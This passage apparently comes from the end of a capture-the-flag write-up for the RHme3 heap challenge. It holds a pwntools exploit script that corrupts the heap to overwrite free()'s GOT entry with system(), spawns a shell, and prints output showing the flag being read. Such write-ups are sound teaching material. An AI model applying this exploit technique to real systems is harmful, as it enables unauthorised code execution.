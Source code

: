 ```python
        target = process.process(target_args, aslr=True)
        if args.GDB:
            target.recvuntil('gef➤ ')
            target.sendline('b main')
            #target.sendline('b *0x00401640')
            #target.sendline('commands')
            #target.sendline('heap bins')
            #target.sendline('continue')
            #target.sendline('end')
            target.sendline('r')
            #target.sendline('heap-analysis-helper')
            if args.INTERACTIVE:
                target.interactive()
                sys.exit(0)
            if extra_bp:
                target.sendline('b *%s' % hex(extra_bp))
            target.sendline('c')
    else:
        target = remote.remote('pwn.rhme.riscure.com', 1337)

    return target, ELF(target_path)

if __name__ == '__main__':

    target, elf = get_target(extra_bp=None)

    path_exploit = os.path.dirname(__file__)
    libc = ELF(os.path.join(path_exploit, 'libc.so.6'))

    # first menu
    recvuntil_main_menu(target)
    # setup the heap so that editing the player willwrite to the GOT of a function
    address_base_libc = setup(target, elf.got['free'], libc.symbols['free']) # free

    address_one_gadget = address_base_libc + libc.symbols['system']
    log.info('one gadget at 0x%x' % address_one_gadget)
    edit_player(target, packing.p64(address_one_gadget)) # one_gadget
    add_player(target, '/bin/sh')
    delete_player(target, 1)
    target.interactive()

```

The important parts are the functions ``setup()`` and ``__main__``.

## Conclusion

Finally the challenge is solved:

```
$ python exploit.py
[*] trying to overwrite got @0x603018
[*] libc function address 0x7f676dc944f0
[*] libc base address     0x7f676dc10000
[*] one gadget at 0x7f676dc55390
[*] Switching to interactive mode
$ ls
flag
main.elf
$ cat flag
RHME3{h3ap_0f_tr0uble?}
```
